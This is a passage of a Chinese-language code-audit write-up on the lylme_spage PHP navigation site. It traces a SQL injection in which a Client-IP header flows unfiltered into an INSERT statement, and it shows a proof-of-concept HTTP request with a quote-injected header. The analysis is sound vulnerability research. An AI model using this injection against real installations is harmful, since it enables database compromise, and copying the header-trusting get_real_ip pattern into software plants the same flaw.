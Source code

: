 ```bash
$sql = "INSERT INTO `lylme_apply` (`apply_id`, `apply_name`, `apply_url`, `apply_group`, `apply_icon`, `apply_mail`, `apply_time`, `apply_status`) VALUES (NULL, '".$name."', '".$url."', '".$group_id."', '".$icon."', '".$userip."', '".$date."', '".$status."');";
```

虽然 SQL 语句将变量直接拼接，但是没有例外的惊喜——可控变量都被单引号括起来了，不过我们看到其中一个变量`$userip`,这个变量也是代码审计中容易被忽略的，特别是被它赋值的函数名字 `get_real_ip` 所迷惑，函数暗示用于获取用户真实 IP，跟进去看看其具体实现。

函数所处文件位置：`include/function.php`

```bash
//获取客户端 IP
function get_real_ip() {
    $real_ip = '';
    if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $arr = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
        $pos = array_search('unknown', $arr);
        if (false !== $pos) {
            unset($arr[$pos]);
        }
        $real_ip = trim($arr[0]);
    } elseif (isset($_SERVER['HTTP_CLIENT_IP'])) {
        $real_ip = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (isset($_SERVER['REMOTE_ADDR'])) {
        $real_ip = $_SERVER['REMOTE_ADDR'];
    }
    return $real_ip;
}
```

首先函数通过获取`X_FORWARDED_FOR`来获取用户真实 IP，那么是不是 SQL 注入就稳了呢？先别高兴太早，如果我们构造`X_FORWARDED_FOR`来注入的话，会没办法去证明危害，原因在于开发者处理的时候，考虑了`X_FORWARDED_FOR`可能存在以`,`分割多个值的情况，选择只取以`,`分割的数组的第一个 IP，这样子会导致我们没办法调用任何一个需要传递两个参数以上的函数，因为`,`是没办法取到的了，这在`INSERT`的 SQL 注入类型基本是无解的。

不过这个函数写的非常有趣，非常合理也非常不安全，开发者选择第二个方案利用`HTTP_CLIENT_IP`，实际上这个值是可以受 HTTP 头控制的，至此完成无限制 SQL 注入漏洞的发现。

```bash
POST /lylme_spage-master/apply/index.php?submit=post HTTP/1.1
Host: localhost:7777
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 68
Client-Ip: 127.0.0.1'
Connection: close
Cookie: Hm_lvt_3824e56a483ef95673d119166354712c=1683402807,1683697221,1683715543,1683916624; csrftoken=K667NTcmO0EB6uHLMRWWV5WRYOpNr3UsU3GckzwMR31xBv0f8B0lr7E7x1njt1Vg; XDEBUG_SESSION=PHPSTORM; PHPSESSID=2157227620502bce8ccaded635165ba2
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

url=http%3A%2F%2Fqq.com1213&name=test&group_id=1&icon=&authcode=1206
```

加上单引号报错

